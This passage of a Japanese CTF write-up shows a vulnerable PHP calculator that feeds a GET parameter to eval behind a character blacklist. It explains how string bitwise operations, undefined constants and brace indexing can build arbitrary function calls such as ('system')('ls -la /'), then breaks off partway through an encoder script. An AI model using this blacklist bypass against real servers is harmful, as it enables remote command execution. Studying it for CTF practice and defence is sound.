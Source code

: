 ```html
    })
</script>

</body></html>
```

`Calc it` というボタンを押すと `/calc.php?num=(入力した式)` に HTTP リクエストが飛ぶようです。

GET パラメータを一切つけずに `/calc.php` にアクセスするとソースコードが表示されました。

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
    $str = $_GET['num'];
    $blacklist = ['[a-z]', '[\x7f-\xff]', '\s',"'", '"', '`', '\[', '\]','\$', '_', '\\\\','\^', ','];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/im', $str)) {
            die("what are you want to do?");
        }
    }
    @eval('echo '.$str.';');
}
?>
```

`a-z` `\x7f-\xff` `\s` `'` `"` `` ` `` `[` `]` `$` `_` `\` `^` `,` が含まれていない場合にのみ、GET パラメータで与えた PHP コードを実行してくれるようです。

まともなコードを実行させるのは不可能に思えますが、PHP ですからなんとかできるでしょう。今回は以下の PHP の仕様が使えそうです。

- 未定義の定数は、その定数名の文字列として扱われる (`@var_dump(POYO) // => string(4) "POYO"`)
- 文字列結合用の演算子 (`.`) を使うと、数値を文字列化できる (`(0).(0) === "00"`)
- 文字列を関数のように呼び出した場合、その名前をもつ関数を呼び出したものとして扱われる (`('strto' . 'upper')('abc') === 'ABC'`)
- 文字列同士でビット演算ができる (`('A' ^ ' ') === 'a'`)
- カーリーブレースも配列などの要素へのアクセスに使うことができる (`['A', 'B', 'C']{1} === 'B'`)

使うことができる文字種は `0123456789!#%&()*+-./:;<=>?@{|}~` のみですが、文字列の結合演算子 (`.`)、ビット演算用の演算子 (`~` `|` `&`)、そして数字と有用なものが揃っています。

数字は `((7).(0)){0}` のように文字列の結合演算子とカーリーブレースを使えば文字列化できますし、`-` は `((-1).(0)){0}` のように負数を使えば、`.` は `((0.1).(0)){1}` のように小数を使えば、そして `E` は `((10**19).(0)){3}` のように指数表記を使えば作り出すことができます。

こうして作り出した文字列同士を AND や OR などのビット演算をさせれば、さらに幅広い種類の文字列を作り出すことができます。最終的には `('system')('ls -la /')` に相当するコードを作り出すこともできるはずです。

様々な文字列を作り出す方法を探索し、得られた結果を使って与えた文字列をエンコードしてくれるプログラムを書きましょう。

```php
<?php
// utils
function add(&$table, $k, $v) {
  if (array_key_exists($k, $table) && strlen($v) >= strlen($table[$k])) {
    return;
  }

  $table[$k] = $v;
}

function add_inv(&$table) {
  $keys = array_keys($table);

  foreach ($keys as $c) {
    add($table, ord(~chr($c)), "((~{$table[$c]}).(0))" . '{0}');
  }
```